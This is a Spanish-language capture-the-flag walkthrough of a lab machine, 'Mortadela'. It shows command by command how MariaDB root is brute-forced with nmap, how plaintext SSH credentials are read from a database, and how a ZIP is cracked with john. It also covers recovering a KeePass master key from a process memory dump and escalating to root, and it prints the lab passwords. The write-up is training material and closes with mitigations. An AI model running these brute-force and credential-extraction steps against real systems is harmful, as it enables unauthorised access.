## Información General

| Campo                    | Detalle                                   |
| ------------------------ | ----------------------------------------- |
| **Nombre de la máquina** | Mortadela                                 |
| **Plataforma**           | TheHackersLabs                            |
| **Dificultad**           | Facil                                     |
| **Sistema Operativo**    | Linux (Debian)                            |
| **Servicios expuestos**  | SSH (22), HTTP (80), MySQL/MariaDB (3306) |

---

## Resumen del Ataque

La máquina expone, además de SSH y un HTTP con la página por defecto de Apache (bajo la que se descubre un WordPress sin explotar directamente), una instancia de MariaDB accesible externamente. La enumeración de usuarios MySQL no revela contraseñas vacías útiles, pero un ataque de fuerza bruta con el propio script `mysql-brute` de Nmap encuentra la contraseña de `root` en pocos segundos. Desde ahí, una base de datos llamada `confidencial` contiene en texto plano las credenciales SSH del usuario `mortadela`. Una vez dentro por SSH, se localiza en `/opt` un ZIP protegido por contraseña que resulta ser un volcado (dump) de proceso de KeePass. La contraseña del ZIP se crackea offline con `john` y rockyou, y del dump de memoria se recupera con la herramienta `keepass_dump` buena parte de la master key de la base de datos KeePass, con un carácter que hay que adivinar manualmente. Abriendo la base con KeePassXC se obtiene la contraseña de `root`, usada directamente con `su` para escalar privilegios.

---

## Técnicas Usadas

- Reconocimiento de puertos y servicios con Nmap
- Fuzzing de contenido web con `dirsearch`
- Enumeración y fuerza bruta de credenciales MySQL con scripts NSE de Nmap (`mysql-enum`, `mysql-databases`, `mysql-brute`)
- Extracción de credenciales en texto plano desde una base de datos
- Transferencia de ficheros vía servidor HTTP improvisado (`python3 -m http.server`)
- Crackeo offline de ZIP protegido por contraseña (`zip2john` + `john` + rockyou)
- Recuperación parcial de master key de una base KeePass a partir de un volcado de memoria del proceso (`keepass_dump`)
- Apertura de base de datos KeePass y extracción de credenciales con KeePassXC
- Escalada de privilegios mediante reutilización de credenciales (`su`)

---

## Desarrollo

### 1. Escaneo de puertos completo

```
sudo nmap -p- -sS --min-rate 5000 -n -vvv -Pn -oN ports 192.168.241.155
```



### 2. Escaneo de versiones

```
nmap -p 22,80,3306 -sC -sV -oN allports 192.168.241.155
```



### 3. Enumeración web

```
http://192.168.241.155/
```

Página por defecto de Apache, sin nada relevante en el código fuente.

### 4. Fuzzing de contenido web

```
dirsearch -u http://192.168.241.155/ --exclude-status 403,404,500 -e php,txt,html
```



Se descubre una instalación de WordPress. No se profundiza en su explotación directa, ya que la vía de MySQL resulta más rápida (pista descartada momentáneamente).

### 5. Enumeración y fuerza bruta de MySQL

```
nmap -p3306 --script mysql-enum,mysql-databases,mysql-brute 192.168.241.155
```



Aunque `mysql-enum` reporta varios usuarios con contraseña vacía como "válidos" (falso positivo típico de este script frente a configuraciones que aceptan autenticación anónima parcial), la vía real es `mysql-brute`, que encuentra la contraseña real de `root`: `cassandra`.

### 6. Conexión a MySQL y extracción de credenciales

```
mysql -h 192.168.241.155 -u root -pcassandra --ssl=0
```

```
MariaDB [(none)]> show databases;
```



```
MariaDB [(none)]> use confidencial;
MariaDB [confidencial]> show tables;
```



```
select * from usuarios;
```



### 7. Acceso SSH y captura de la flag de usuario

```
ssh mortadela@192.168.241.155
```

```
mortadela@mortadela:~$ whoami
```



```
mortadela@mortadela:~$ cat user.txt
```



### 8. Enumeración de escalada de privilegios

```
mortadela@mortadela:~$ sudo -l
```

```
Sorry, user mortadela may not run sudo on mortadela.
```

Sin permisos sudo. Se buscan binarios SUID:

```
mortadela@mortadela:~$ find / -perm -4000 -type f 2>/dev/null
```



Todos son binarios estándar del sistema, sin vector de escalada directo (pista descartada). Se confirma además que solo existen dos usuarios con shell interactiva:

```
mortadela@mortadela:~$ grep bash /etc/passwd
```



### 9. Localización de un ZIP protegido

```
mortadela@mortadela:~$ cd /opt
mortadela@mortadela:/opt$ ls
```



### 10. Transferencia y crackeo del ZIP

Se sirve el fichero desde la propia víctima y se descarga en el equipo atacante:

```
mortadela@mortadela:/opt$ python3 -m http.server 8000
```

```
wget http://192.168.241.155:8000/muyconfidencial.zip
```

Al intentar descomprimirlo, pide contraseña:

```
unzip muyconfidencial.zip
```



Se extrae el hash y se crackea offline:

```
zip2john muyconfidencial.zip > hash.txt
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```



### 11. Contenido del ZIP — dump de proceso KeePass

```
unzip muyconfidencial.zip
```

Dentro del ZIP hay una base de datos KeePass (`Database.kdbx`) y un volcado de memoria del proceso KeePass (`KeePass.DMP`). Se usa la herramienta `keepass_dump` para intentar recuperar la master key directamente del dump:

```
git clone https://github.com/z-jxy/keepass_dump
python3 keepass_dump/keepass_dump.py -f KeePass.DMP
```



El primer carácter no se recupera automáticamente; se adivina manualmente por contexto (nombre propio capitalizado): `M` → `Maritrini12345`.

### 12. Apertura de la base KeePass

```
keepassxc Database.kdbx
```

 

Dentro de la base se encuentra una entrada con las credenciales de `root`:

```
root : Juanikonokukunero
```

### 13. Escalada de privilegios

```
mortadela@mortadela:/opt$ su root
```

```
root@mortadela:/opt# whoami
```



### 14. Captura de la flag de root

```
root@mortadela:~# cat root.txt
```



---

## Lecciones Aprendidas

- Exponer un servicio de base de datos como MySQL/MariaDB directamente a una red no confiable, incluso sin contraseñas vacías, sigue siendo un riesgo alto: una contraseña de diccionario para `root` cae en segundos frente a herramientas de fuerza bruta estándar.
- Guardar credenciales de otros sistemas (SSH, en este caso) en texto plano dentro de una tabla de base de datos anula cualquier control de acceso que se tenga en esos otros sistemas.
- Un gestor de contraseñas como KeePass protege bien la base de datos en reposo, pero un volcado de memoria del proceso mientras está desbloqueada puede filtrar fragmentos sustanciales de la master key la "seguridad" del gestor depende también de proteger el propio proceso en ejecución.
- Reutilizar la misma cuenta (`root` del sistema) con la misma contraseña que la guardada en el gestor de contraseñas personal convierte cualquier fuga del vault en compromiso total del sistema.

---

## Medidas de Mitigación

- No exponer MySQL/MariaDB a redes no confiables; restringir por firewall o VPN y usar contraseñas robustas y únicas, especialmente para `root`.
- Nunca almacenar credenciales de otros servicios en texto plano en una base de datos; si es imprescindible, cifrar en reposo con una clave gestionada externamente (KMS, vault de secretos).
- Evitar dejar volcados de memoria (`.DMP`) de procesos sensibles accesibles en el sistema de archivos, y menos aún empaquetados junto a la propia base de datos que protegen.
- Bloquear o cerrar el gestor de contraseñas cuando no esté en uso activo, para reducir la ventana en la que un volcado de memoria podría exponer la master key.
- No reutilizar contraseñas entre cuentas de sistema (`root`) y entradas de un gestor de contraseñas personal expuesto a otros riesgos de fuga.


